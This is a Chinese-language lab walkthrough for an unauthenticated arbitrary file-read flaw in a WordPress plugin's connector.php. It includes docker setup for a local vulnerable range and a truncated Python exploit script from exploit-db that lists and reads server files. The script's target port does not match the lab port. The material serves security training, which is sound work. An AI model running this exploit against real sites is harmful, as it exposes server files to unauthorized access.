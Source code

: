 但由于其安全设计缺陷，攻击者可以在不登录的情况下利用该漏洞访问服务器上的任意文件。

https://blog.csdn.net/weixin_42323041/article/details/115011873

https://www.exploit-db.com/exploits/49317

#### 启动靶场

```bash
docker pull medicean/vulapps:w_wordpress_3
docker run -d -p 6082:80 medicean/vulapps:w_wordpress_3
```

![image-20241105145504856](https://image.201068.xyz/assets/11.Wordpress/image-20241105145504856.png)

#### 访问

http://192.168.70.4:6082

![image-20241105151015501](https://image.201068.xyz/assets/11.Wordpress/image-20241105151015501.png)

#### exp.py

https://www.exploit-db.com/exploits/40295

攻击脚本，修改exp脚本中的服务器地址，`host`改为自己靶机的地址。

![image-20241105165139025](https://image.201068.xyz/assets/11.Wordpress/image-20241105165139025.png)

```bash
#!/usr/bin/evn python
# -*-:coding:utf-8 -*-
# Source: https://www.exploit-db.com/exploits/40295/

import httplib
from json import loads

TARGET_HOST = "192.168.70.4:6062"


def common(path):
    global TARGET_HOST
    conn = httplib.HTTPConnection(TARGET_HOST)
    conn.request("GET", "/wp-content/plugins/cysteme-finder/php/connector.php?wphome=" + path + "&cmd=open&init=1&tree=1")
    return loads(conn.getresponse().read())


def ls(path):
    try:
        data = common(path)["files"]
        print
        print "Total files: %d\n" % len(data)
        for counter in range(len(data)):
            if data[counter]["mime"]:
                print data[counter]["mime"], ":",
            else:
                print "Unknown type", ":",
            print data[counter]["name"]
        print "\n"
    except KeyError:
        print "没有这个文件夹 / No such FOLDER\n"


def cat(raw_path):
    global TARGET_HOST
    path = ""
```
